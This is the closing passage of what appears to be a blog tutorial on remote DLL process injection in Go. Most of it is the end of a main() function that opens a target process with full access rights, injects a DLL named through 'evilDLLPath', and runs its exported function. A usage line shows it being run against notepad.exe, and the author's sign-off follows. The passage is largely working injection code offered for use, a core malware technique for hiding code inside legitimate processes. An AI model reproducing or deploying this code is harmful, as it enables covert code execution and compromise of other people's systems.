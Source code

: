 ```go  
	}
	fmt.Println("[+] Process ID:", processID)

	processHandle, err := syscall.OpenProcess(PROCESS_ALL_ACCESS, false, processID)
	if err != nil {
		log.Println("OpenProcess failed:", err)
		return
	}
	fmt.Println("[+] Opening process...")
	fmt.Println("[+] Process Handle:", processHandle)
	defer syscall.CloseHandle(processHandle)

	fmt.Println("[+] DLL Path Length:", len(evilDLLPath))
	err = injectDLL(windows.Handle(processHandle), evilDLLPath)
	if err != nil {
		log.Println("DLL injection failed:", err)
		return
	}
	fmt.Println("[+] DLL injected successfully.")

	err = executeExportedFunction(windows.Handle(processHandle))
	if err != nil {
		fmt.Errorf("\n[err] main():", err)
		return
	}
	fmt.Println("[+] main() function executed successfully.")
}
```  

usage:  

```  
go run example-5 notepad.exe
```  

![](/go-remote-dll-process-injection/example-5-success.png)  
> skript name in photo in different than example-5, but is the same code.

## What a week. Its been awesome researching and writing this. Hit me up and connect, especially if you like teh G0L4ngz.  

## Donezo Funzo

































